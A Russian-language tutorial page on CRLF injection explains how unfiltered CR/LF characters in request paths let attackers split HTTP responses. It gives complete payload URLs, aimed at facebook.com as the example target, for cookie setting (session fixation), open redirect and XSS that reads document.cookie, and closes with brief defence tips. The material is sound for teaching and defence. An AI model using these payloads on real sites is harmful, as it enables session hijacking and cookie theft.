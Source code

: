 # Carriage Return Line Feed

Уязвимость веб-серверов, с недостаточной фильтрацией данных пользователя, переданных в **http**-запросе.

Системы использующие **ASCII**-кодировку, применяют управляющие символы **CR**(0x0D) и **LF**(0x0A) для возврата каретки и перевода строки соответственно.  

Как мы помним **http** протокол (<2.0) - текстовый, где разделение строк происходит как раз символами `\r\n`(=CRLF).  

## Эксплуатация

### Установка кастомных заголовков

Допустим мы имеем уязвимый веб-сервер на хосте `example.com`, который некорректно обрабатывает **Request URI**, то есть декодирует, применяя метасимволы.  

В итоге путь `/%0aSet-Cookie:xxx=xxx%0aX:/%2e%2e/test` будет преобразован в  

    /
    Set-Cookie: xxx=xxx
    X: /../test

Тогда инъекция будет представлять из себя **URL**:  
`www.facebook.com/%0aSet-Cookie:xxx=xxx%0aX:%2f%2e%2e/test`  
позволяя проставить перешедшему по ссылке куку с нужным значением. Так можно применять **Session fixation**, например.  

> Facebook тут не случайно :)

### Open redirect

`www.facebook.com/%2fwww.google.com%2f%2e%2e/`

### XSS

Для проведения **XSS** нужно сломать значение заголовка **Location** в ответе, чтобы не произошло редиректа, после чего можно задать нужный **Content-type**, отключить **XSS** защиту браузера заголовком `X-XSS-Proteection: 0` и отбив пустую строку для того, чтобы браузер последующую часть воспринимал как тело ответа.  

То есть  
`www.facebook.com/%2Fxxx:1%2F%0aX-XSS-Protection:0%0aContent-Type:text/html%0aContent-Length:39%0a%0a%3cscript%3ealert(document.cookie)%3c/script%3e%2F..%2F..%2F..%2F../test`  

Даст  

    HTTP/1.1 301 Moved Permanently
    Location: //xxx:1/
    X-XSS-Protection: 0
    Content-Type: text/html
    Connection: Close

    <script>alert()</script>/../../../../test/
    Content-Type: text/html; charset=utf-8
    Connection: keep-alive ...
    ...

В итоге браузер выполнит `<script>alert()</script>`.

## Защита

* Следить за обновлениями веб-сервера
* Не писать собственные реализации, если ты не Сысоев

[← Назад](../README.md)